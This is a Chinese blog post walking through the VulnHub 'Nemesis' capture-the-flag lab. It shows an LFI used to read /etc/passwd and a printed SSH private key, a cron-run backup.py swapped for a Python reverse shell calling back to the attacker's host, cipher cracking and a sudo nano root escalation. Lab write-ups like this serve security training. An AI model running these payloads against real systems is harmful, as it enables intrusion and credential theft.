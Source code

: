 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-3-UoPSKF0B4JremD0ocUw)

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/1brjUjbpg5zGqnux86icY3iaSADXAreXiaJEIOOPug2W5Rich6Cst24vCeB65NNkoxowMh4uZIcwoSUKENv1mFW3ww/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

点击上方“信安前线” 可订阅

**0x01 介绍**

虚拟机页面：http://www.vulnhub.com/entry/ia-nemesis-101,582/

Description

```
`Difficulty: Intermediate to Hard``Goal: Get the root shell and read all the 3 flags.``Information: You need some good encryption and programming skills to root this box. Please solve this challenge by using only the intended way, any unintended way will not be apprecitated.``If you need any hints, you can contact us on Twitter (@infosecarticles)`
```

**0x02 Writeup**  

**服务探测：**

```
`PORT      STATE SERVICE VERSION``80/tcp    open  http    Apache httpd 2.4.38 ((Debian))``52845/tcp open  http    nginx 1.14.2``52846/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)``Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`
```

**web渗透测试：**

80端口服务有一个登录入口，在页面的validateForm函数中得到了用户名和密码，但是登录后没有任何东西。

```
`<!DOCTYPE html>``function validateForm() {` `var x = document.forms["myForm"]["uname"].value;` `var y = document.forms["myForm"]["pass"].value;``  if (x == "") {` `alert("Name must be filled out");` `return false;` `}` `if (y == "") {` `alert("Password must be filled out");` `return false;` `}` `if (x == "hacker_in_the_town" && y == "thanos")` `{` `document.write("You will be redirected to main page in 3 sec.");` `setTimeout('validate()', 3000);` `}``}`
```

紧接着访问52845端口，在#contact中尝试输入任意信息然后提交，出现提示Message has been saved in a file,于是在Message中输入/etc/passwd，成功实现了LFI。

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQQrFMEicbiaegFyNla6fGZ2JMeo7ZiaCr8PKibtrm0c03sd2aPkiczLkEyiauqThHrEWRxGHnWcA7GetKYA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQQrFMEicbiaegFyNla6fGZ2JM1GqRtHkZXVS6kIWZYl45561thNnz2hE4I3bxckaAvcHa2TgGDCKeEg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

之后，尝试了一些常见log读取失败后，尝试ssh登录thanos，发现需要私钥认证

```
`kali@kali:~$ ssh -p 52846 thanos@192.168.56.42` `thanos@192.168.56.42: Permission denied (publickey).`
```

尝试利用LFI获取thanos私钥/home/thanos/.ssh/id_rsa，成功并实现ssh登录，获取到**第一个flag**。

```
`-----BEGIN OPENSSH PRIVATE KEY-----``b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn``NhAAAAAwEAAQAAAQEA1H2rDU6AnY2LSnOSLpXxZ7Fb0HPfQQds2SdQzvBH6NNSIuLFsebl``2fAgeirNWD2LHs3C/8jPyy1GRsxFd9U0yF2hO0aRBASSWU+WzLTIeLvaPircn8P1l528cX``HoWvXnzKsZLibrFos6H3krrRJ8Y+U/BI8dPHVEc35j6z79kjZo9ywrCRFigsjnG/YnPfCi``ZwgxwUBHdJxyuugc9PiEMaDVGVL84gVNknR4INOLCCa8kSGoHfuW0+D67pDgtqzRup4io0``PurjeH9183JrSJe5Wa0aL7mz2aeaVRLS9ICCfmLp+Rp3nfGDolATqWpbtfvRUAbplL1R8N``VVyKFPkptQAAA8j/NR2S/zUdkgAAAAdzc2gtcnNhAAABAQDUfasNToCdjYtKc5IulfFnsV``vQc99BB2zZJ1DO8Efo01Ii4sWx5uXZ8CB6Ks1YPYsezcL/yM/LLUZGzEV31TTIXaE7RpEE``BJJZT5bMtMh4u9o+Ktyfw/WXnbxxceha9efMqxkuJusWizofeSutEnxj5T8Ejx08dURzfm``PrPv2SNmj3LCsJEWKCyOcb9ic98KJnCDHBQEd0nHK66Bz0+IQxoNUZUvziBU2SdHgg04sI``JryRIagd+5bT4PrukOC2rNG6niKjQ+6uN4f3XzcmtIl7lZrRovubPZp5pVEtL0gIJ+Yun5``Gned8YOiUBOpalu1+9FQBumUvVHw1VXIoU+Sm1AAAAAwEAAQAAAQEAkBkElYqF59IkAoIr``QNJIGfSJeewKGxRI+V4TC7KgYUBlM+kq/cDCYK/Zpl8+T7e0j1gkA8ePOo5iWQKPnXsFR1``dPTl5FWz8qa8xwTDPQuydREdWJNgLymjXKo/gGBSE7Z20kL0sPI4OZD9zhBIZDuo6s1I+k``2OoBWHz+j3pxBOQKmApkbtwkKSli75xuzYaDt/OMy8/t+ML5ocTXSqJ4p00uH231OLCwKK``Ek5u1mrJQ07SYIK7g1pr1nwru9eMf4lKcT4KKPvPmaNorooYo86QO9bQk61DCjMEdh0uI7``hwUd5welBALIhUU3JFBznj7Xo8WnK0JFOJD2qAJQrFtz4QAAAIBJPdwoMasCzCOdLtkbC+``DPFhHH1cJ/kPUusNMV03xkOk0XjsZ06gwnvWQSTp0bE+zC8YmKCj23bNP/XDBhAogmVTqw``S4a+lO5gJutRT2rFSYBc58NIH3A4/IPKLbqy1+8+WuIce98eHsUliiTpcDwv5JYUkWHjCx``CKtfPIcrW8YAAAAIEA7dSwRfEti3jd/Prm/zfb1sbkwpo6oiLCum3E9fLIi0iWmqUFcTvd``xbh5xOweywAUs/jYpPw3pK3ZIwQC8tGbHKNVDPtXBSk+5qTRZv5FvAZTH9xiQeSGNiPPMi``FWOc1CpeNywEDY/k43wyIQSIeXjR1z8ZxFkf8u/l4poFE2eX0AAACBAOS5ZqSQ9cbv8Rm2``zIUmIQvBvG0cegsKaDx4ZMK0I2J3kLKM+qWbQbSxVWt/NOHMQGfrDD2MIX61fN7JjqL4E0``KzmgYQleQRM3U3RGpynnimPBzd3NmvpVxBFb3wg/U9rIlrGzzUkwQZRtntox6k3jka8oHd``U5RDT6RIBqdYiiaZAAAADnRoYW5vc0BuZW1lc2lzAQIDBA==``-----END OPENSSH PRIVATE KEY-----`
```

```
`kali@kali:~$ ssh -p 52846 -i id thanos@192.168.56.42` `Linux nemesis 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64``The programs included with the Debian GNU/Linux system are free software;``the exact distribution terms for each program are described in the``individual files in /usr/share/doc/*/copyright.``Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent``permitted by applicable law.``Last login: Mon Oct 26 08:48:39 2020 from 127.0.0.1``thanos@nemesis:~$ ls -all``total 40``drwxr-xr-x 4 thanos thanos 4096 Oct 25 10:05 .``drwxr-xr-x 4 root   root   4096 Oct  6 15:17 ..``-rw-r--r-- 1 carlos carlos  345 Oct  3 22:22 backup.py``-rw------- 1 thanos thanos 1065 Oct 26 09:11 .bash_history``-rw-r--r-- 1 thanos thanos  220 Oct  6 15:17 .bash_logout``-rw-r--r-- 1 thanos thanos 3526 Oct  6 15:17 .bashrc``-rw-r--r-- 1 thanos thanos  800 Oct  6 16:35 flag1.txt``drwxr-xr-x 3 thanos thanos 4096 Oct  7 18:04 .local``-rw-r--r-- 1 thanos thanos  807 Oct  6 15:17 .profile``drwxr-xr-x 2 thanos thanos 4096 Oct 26 09:10 .ssh``thanos@nemesis:~$ cat flag1.txt`  `_.-'|` `_.-'    |` `_.-'        |` `.-'____________|______` `|                     |` `| Congratulations for |` `|  pwning user Thanos |` `|                     |` `|      _______        |` `|     |.-----.|       |` `|     ||x . x||       |` `|     ||_.-._||       |` ``|     `--)-(--`       |`` `|    __[=== o]___     |` `|   |:::::::::::|\    |` ``|   `-=========-`()   |`` `|                     |` `|  Flag{LF1_is_R34L}  |` `|                     |` `|    -= Nemesis =-    |` `` `---------------------` ``
```

**获取第二个flag：**

在用户目录下发现一个属于carlos的文件backup.py,同时观察到/tmp/website.zip每分钟被carlos用户生成-rw-r--r-- 1 carlos carlos 1011946 Oct 27 07:46 website.zip，由此可以判断该用户每分钟在执行python /home/thanos/backup.py。

```
`thanos@nemesis:~$ ls -all``total 40``drwxr-xr-x 4 thanos thanos 4096 Oct 25 10:05 .``drwxr-xr-x 4 root   root   4096 Oct  6 15:17 ..``-rw-r--r-- 1 carlos carlos  345 Oct  3 22:22 backup.py``-rw------- 1 thanos thanos 1065 Oct 26 09:11 .bash_history``-rw-r--r-- 1 thanos thanos  220 Oct  6 15:17 .bash_logout``-rw-r--r-- 1 thanos thanos 3526 Oct  6 15:17 .bashrc``-rw-r--r-- 1 thanos thanos  800 Oct  6 16:35 flag1.txt``drwxr-xr-x 3 thanos thanos 4096 Oct  7 18:04 .local``-rw-r--r-- 1 thanos thanos  807 Oct  6 15:17 .profile``drwxr-xr-x 2 thanos thanos 4096 Oct 26 09:10 .ssh``#!/usr/bin/env python``import os``import zipfile``def zipdir(path, ziph):` `for root, dirs, files in os.walk(path):` `for file in files:` `ziph.write(os.path.join(root, file))``if __name__ == '__main__':` `zipf = zipfile.ZipFile('/tmp/website.zip', 'w', zipfile.ZIP_DEFLATED)` `zipdir('/var/www/html', zipf)` `zipf.close()``thanos@nemesis:~$ cat backup.py` `#!/usr/bin/env python``import os``import zipfile``def zipdir(path, ziph):` `for root, dirs, files in os.walk(path):` `for file in files:` `ziph.write(os.path.join(root, file))``if __name__ == '__main__':` `zipf = zipfile.ZipFile('/tmp/website.zip', 'w', zipfile.ZIP_DEFLATED)` `zipdir('/var/www/html', zipf)` `zipf.close()`
```

于是，替换backup.py为反弹shell（需要注意的是不能直接编辑backup.py，需要将原backup.py重名为其它文件，再重新生成backup.py）。

```
`thanos@nemesis:~$ cat backup.py` `import socket``import subprocess``import os``s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)``s.connect(("192.168.56.4",8000))``os.dup2(s.fileno(),0)``os.dup2(s.fileno(),1)``os.dup2(s.fileno(),2)``p=subprocess.call(["/bin/sh","-i"])`
```

成功获取第二个flag。

```
`kali@kali:~$ rlwrap nc -lp 8000` `/bin/sh: 0: can't access tty; job control turned off``$ id``uid=1000(carlos) gid=1000(carlos) groups=1000(carlos),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)``$ cd /home/carlos``$ ls -all``total 40``drwxr-x--- 3 carlos carlos 4096 Oct  7 17:55 .``drwxr-xr-x 4 root   root   4096 Oct  6 15:17 ..``-rw------- 1 carlos carlos    8 Oct 25 10:04 .bash_history``-rw-r--r-- 1 carlos carlos  220 Oct  6 15:05 .bash_logout``-rw-r--r-- 1 carlos carlos 3526 Oct  6 15:05 .bashrc``-rw-r--r-- 1 carlos carlos  886 Oct  5 21:09 encrypt.py``-rw-r--r-- 1 carlos carlos  801 Oct  7 16:59 flag2.txt``drwxr-xr-x 3 carlos carlos 4096 Oct  7 16:58 .local``-rw-r--r-- 1 carlos carlos  807 Oct  6 15:05 .profile``-rw-r--r-- 1 carlos carlos  279 Oct  7 17:52 root.txt``$ cat flag2.txt` `_.-'|` `_.-'    |` `_.-'        |` `.-'____________|______` `|                     |` `| Congratulations for |` `|  pwning user Carlos |` `|                     |` `|      _______        |` `|     |.-----.|       |` `|     ||x . x||       |` `|     ||_.-._||       |` ``|     `--)-(--`       |`` `|    __[=== o]___     |` `|   |:::::::::::|\    |` ``|   `-=========-`()   |`` `|                     |` `| Flag{PYTHON_is_FUN} |` `|                     |` `|    -= Nemesis =-    |` `` `---------------------` ``
```

**提权至root获取第三个flag：**

用户文件下root.txt

```
`The password for user Carlos has been encrypted using some algorithm and the code used to encrpyt the password is stored in “encrypt.py”. You need to find your way to hack the encryption algorithm and get the password. The password format is “****FUN”``Good Luck!`
```

分析encrypt.py。

```
`def egcd(a, b):` `x,y, u,v = 0,1, 1,0` `while a != 0:` `q, r = b//a, b%a` `m, n = x-u*q, y-v*q` `b,a, x,y, u,v = a,r, u,v, m,n` `gcd = b` `return gcd, x, y``def modinv(a, m):` `gcd, x, y = egcd(a, m)` `if gcd != 1:` `return None` `else:` `return x % m``def affine_encrypt(text, key):` `return ''.join([ chr((( key[0]*(ord(t) - ord('A')) + key[1] ) % 26)` `+ ord('A')) for t in text.upper().replace(' ', '') ])``def affine_decrypt(cipher, key):` `return ''.join([ chr((( modinv(key[0], 26)*(ord(c) - ord('A') - key[1]))` `% 26) + ord('A')) for c in cipher ])``def main():` `text = 'REDACTED'` `affine_encrypted_text="FAJSRWOXLAXDQZAWNDDVLSU"` `key = [REDACTED,REDACTED]` `print('Decrypted Text: {}'.format` `( affine_decrypt(affine_encrypted_text, key) ))``if __name__ == '__main__':` `main()`
```

FUN对应密文QZA首先确定key[0], key[1]

```
`import sys``def affine_encrypt(text, key):` `return ''.join([ chr((( key[0]*(ord(t) - ord('A')) + key[1] ) % 26)` `+ ord('A')) for t in text.upper().replace(' ', '') ])``if __name__ == '__main__':  ``    affine_text="FUN"` `for key0 in range(65, 91):` `for key1 in range(65, 91):` `encrypt_text = affine_encrypt(affine_text, [key0, key1])` `if encrypt_text == "QZA":` `print(key0,key1)` `sys.exit(0)`
```

得到key为[89, 65],解密过程就是加密的反向过程，解密程序如下：

```
`def affine_decrypt(cipher):` `text = []` `for t in cipher:` `b = ord(t) - ord('A')` `for x in range(0, 26):` `result = (65 + x*89 - b) % 26` `if result == 0:` `text.append(chr(x + ord('A')))` `break` `print(''.join(text))` `if __name__ == '__main__':  ``    affine_encrypted_text = "FAJSRWOXLAXDQZAWNDDVLSU"` `affine_decrypt(affine_encrypted_text)`
```

得到password为ENCRYPTIONISFUNPASSWORD

查看sudo -l

```
`carlos@nemesis:~$ sudo -l``[sudo] password for carlos:` `Matching Defaults entries for carlos on nemesis:` `env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin``User carlos may run the following commands on nemesis:` `(root) /bin/nano /opt/priv`
```

剩下的就很容易了，用nano提权。

```
 `,----------------,              ,---------,` `,-----------------------,          ,"        ,"|` `,"                      ,"|        ,"        ,"  |` `+-----------------------+  |      ,"        ,"    |` `|  .-----------------.  |  |     +---------+      |` `|  |                 |  |  |     | -==----'|      |` `|  |  I LOVE Linux!  |  |  |     |         |      |` ``|  |                 |  |  |/----|`---=    |      |`` `|  | root@nemesis:~# |  |  |   ,/|==== ooo |      ;` `|  |                 |  |  |  // |(((( [33]|    ,"` ``|  `-----------------'  |," .;'| |((((     |  ,"`` `+-----------------------+  ;;  | |         |,"``        /_)______________(_/  //'   | +---------+` ``___________________________/___  `,`` `/  oooooooooooooooo  .o.  oooo /,   \,"-----------` ``/ ==ooooooooooooooo==.o.  ooo= //   ,`\--{)B     ,"```/_==__==========__==_ooo__ooo=_/'   /___________,"``` `-----------------------------'```FLAG{CTFs_ARE_AW3S0M3}``Congratulations for getting root on Nemesis! We hope you enjoyed this CTF!``Share this Flag on Twitter (@infosecarticles). Cheers!``Follow our blog at https://www.infosecarticles.com``Made by CyberBot and 0xMadhav!`
```

**PS：已授权，感谢大哥的文章**

更多精彩

*   [Web渗透技术初级课程介绍](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486030&idx=2&sn=185f303a2f1b5267c0865f117931959d&chksm=fcfc3718cb8bbe0e6f3ca97859e78342852537da2bef3cd76a83cb90ee64a8ca8953b35aa67e&scene=21#wechat_redirect)
    
*   [](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486030&idx=2&sn=185f303a2f1b5267c0865f117931959d&chksm=fcfc3718cb8bbe0e6f3ca97859e78342852537da2bef3cd76a83cb90ee64a8ca8953b35aa67e&scene=21#wechat_redirect)[Web漏扫软件Appscan 最新 V10.0.4原版包下载](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486869&idx=1&sn=abbd0f6c337a0dfe920a0e9d01c7a96a&chksm=fcfc30c3cb8bb9d536cb7d018f390c052deeef25191c1292c27aa3c53445ab6e838adf6143a5&scene=21#wechat_redirect)
    
*   [商务合作](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486808&idx=1&sn=f50f15f9a3ab7312a08b1f932292faca&chksm=fcfc300ecb8bb918213c6070d864ffcd70ad27ab6525521c31e9ccaa57bdfa2968360ed7e8fe&scene=21#wechat_redirect)
    

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**如果感觉文章不错，分享让更多的人知道吧！**